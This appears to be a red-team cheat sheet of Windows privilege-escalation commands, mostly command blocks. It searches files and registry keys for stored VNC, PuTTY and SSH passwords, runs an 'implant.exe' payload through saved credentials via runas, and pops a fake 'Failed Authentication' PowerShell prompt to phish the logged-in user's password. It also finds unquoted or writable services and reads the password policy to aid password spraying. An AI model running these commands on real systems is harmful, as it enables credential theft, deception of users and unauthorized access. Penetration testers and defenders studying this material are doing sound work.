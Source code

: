# Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

**List stored credentials**
```
cmdkey /list
```

**User a stored credential**
```
runas /savecred /user:admin implant.exe
```

```
Seatbelt.exe CredEnum
```

## Asking for Credentials

Only a viable attack path if there's a user logged into the system. This can also burn you if the user gets suspicious.

**Request password for current user, using environment variable for the user:**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

**Request password for current user, using hard-coded username (admin in this example):**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

## Unsecured Services or Executables

**Identify Unquoted Service Paths with WMIC:**
wmic can trigger alerts in some environments.
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
**Identify services Everyone, Users, and Authenticated users have write access to**

```
accesschk.exe -accepteula -wuvc "Everyone" *
```
```
accesschk.exe -accepteula -wuvc "Users" *
```
```
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

## View Password Policy

Password spray attacks can sometimes lead to elevating privileges if you're lucky. Knowing the password policy can greatly increase your success rate and efficiency. For example, if you know the password length is set to 15, you won't waste time spraying 8 character lenght passwords. ALthough there are sometimes when an old service account which hasn't had a password change in 10 years is using a password that falls outside the curretn password complexity rules.

```
net accounts
```